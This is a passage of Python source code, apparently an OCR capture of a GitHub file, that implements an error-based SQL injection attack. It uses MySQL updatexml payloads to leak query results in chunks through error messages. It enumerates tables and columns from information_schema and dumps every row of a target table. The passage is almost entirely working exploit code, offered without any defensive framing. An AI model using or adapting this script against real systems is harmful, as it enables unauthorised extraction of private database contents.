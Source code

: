 ```python
            use_chunks = True
        else:
            return result

    if use_chunks:
        full_data = ""
        chunk_size = 30
        chunk_index = 1
        while True:
            chunk_payload = f"x\\' or updatexml(null,concat(0x0a,SUBSTRING(({query}), {chunk_index}, {chunk_size})),null) -- a"
            chunk = sqli(chunk_payload)
            if not chunk or chunk == "":
                break
            full_data += chunk
            chunk_index += chunk_size
        return full_data
    
    return None

def fetch_table(table_name):
    column_names = []
    data = []
    
    # Get column count
    payload = f"x\\' or updatexml(null,concat(0x0a,(select COUNT(*) from information_schema.columns WHERE table_name=\"{table_name}\" LIMIT 1)),null) -- a"
    columns_count = sqli(payload)
    
    # Fetch column names
    for i in range(int(columns_count)):
        column_query = f"select column_name from information_schema.columns WHERE table_name=\"{table_name}\" LIMIT {i},1"
        column_name = fetch_data(column_query)
        if column_name:
            column_names.append(column_name)
        else:
            break

    # Get row count
    payload = f"x\\' or updatexml(null,concat(0x0a,(select COUNT(*) from {table_name} LIMIT 1)),null) -- a"
    length = sqli(payload)
    
    # Fetch all data
    for i in range(int(length)):
        row = {}
        for column_name in column_names:
            data_query = f"select {column_name} from {table_name} LIMIT {i},1"
            value = fetch_data(data_query)
            row[column_name] = value
        data.append(row)

    return data

def fetch_all_tables():
    tables = []
    i = 0
    while True:
        query = f"select table_name from information_schema.tables LIMIT {i},1"
        table_name = fetch_data(query)
        if not table_name:
            break
```